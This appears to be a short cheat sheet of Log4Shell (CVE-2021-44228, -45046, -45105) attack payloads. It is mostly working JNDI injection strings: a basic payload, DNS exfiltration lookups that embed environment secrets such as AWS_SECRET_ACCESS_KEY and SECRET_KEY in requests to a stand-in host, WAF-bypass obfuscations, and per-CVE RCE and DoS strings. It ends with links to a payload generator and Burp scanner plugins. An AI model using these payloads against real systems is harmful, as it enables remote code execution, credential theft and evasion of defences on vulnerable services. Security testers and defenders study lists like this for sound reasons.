 ## Basic payload
`${jndi:ldap://example.com/a}`

## DNS Exfil
```
${jndi:ldap://${env:JAVA_VERSION}.example.com/a}
${jndi:ldap://${sys:java.version}.example.com/a}
${jndi:ldap://${hostName}.example.com/a}
${jndi:ldap://${sys:java.vendor}.example.com/a}
${jndi:ldap://${env:user}.example.com/a}
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.example.com}
${jndi:ldap://example.com/a${env:USER}}
${jndi:ldap://${env:SECRET_KEY}.example.com/}
```

## Bypass WAF
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://example.com/a}
${${::-j}ndi:rmi://example.com/a}
${jndi:rmi://example.com}
${${lower:jndi}:${lower:rmi}://example.com/a}
${${lower:${lower:jndi}}:${lower:rmi}://example.com/a}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://example.com/a}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://example.com/a}
```

## Omitting closing brace can lead to data exfil after "/" sign
`${jndi:ldap://example.com/`

### CVE-2021-44228 (RCE) - Critical
`${jndi:ldap://example.com/a}`

### CVE-2021-45046 (RCE) - Critical
`${jndi:ldap://127.0.0.1#example.com/a}`

### CVE-2021-45105 (DoS) - High
`${${::-${::-$${::-j}}}}`

## Payload generator
https://github.com/woodpecker-appstore/log4j-payload-generator

## Burp plugins
### Passive scanner checks
https://github.com/whwlsfb/Log4j2Scan

### Active scan check
https://portswigger.net/bappstore/b011be53649346dd87276bca41ce8e8f


